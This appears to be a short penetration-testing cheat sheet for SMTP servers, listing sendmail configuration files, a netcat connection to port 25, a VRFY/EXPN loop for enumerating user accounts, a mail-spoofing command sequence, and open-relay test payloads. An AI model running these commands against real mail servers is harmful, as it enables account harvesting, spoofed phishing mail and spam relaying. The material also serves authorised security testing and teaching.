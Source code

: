 # Configuration files
```
sendmail.cf
submit.cf
```

# General
```
nc -‐nv 192.168.11.215 25
```

# "HELP" Command

# "VRFY" & "EXPN" Command:

```
VRFY username (verifies if username exists - enumeration of accounts)
EXPN username (verifies if username is valid - enumeration of accounts)
```

```
  VRFY existing_user
  Results in: 250

  VRFY nonexisting_user
  Results in: 550

  for user in $(cat users.txt); do echo VRFY $user | nc -nv -w <ip> 25 2>/dev/null | grep ^"250"; done
```

# Mail Spoofing
```
HELO anything MAIL FROM: spoofed_address RCPT TO:valid_mail_account DATA . QUIT
```
> http://0daysecurity.com/penetration-testing/enumeration.html
  
# Mail Relay
```
HELO anything

Identical to/from - mail from: <nobody@domain> rcpt to: <nobody@domain>
Unknown domain - mail from: <user@unknown_domain>
Domain not present - mail from: <user@localhost>
Domain not supplied - mail from: <user>
Source address omission - mail from: <> rcpt to: <nobody@recipient_domain>

Use IP address of target server - mail from: <user@IP_Address> rcpt to: <nobody@recipient_domain>
Use double quotes - mail from: <user@domain> rcpt to: <"user@recipent-domain">

User IP address of the target server - mail from: <user@domain> rcpt to: <nobody@recipient_domain@[IP Address]>

Disparate formatting - mail from: <user@[IP Address]> rcpt to: <@domain:nobody@recipient-domain>

Disparate formatting2 - mail from: <user@[IP Address]> rcpt to: <recipient_domain!nobody@[IP Address]>
```
> http://0daysecurity.com/penetration-testing/enumeration.html
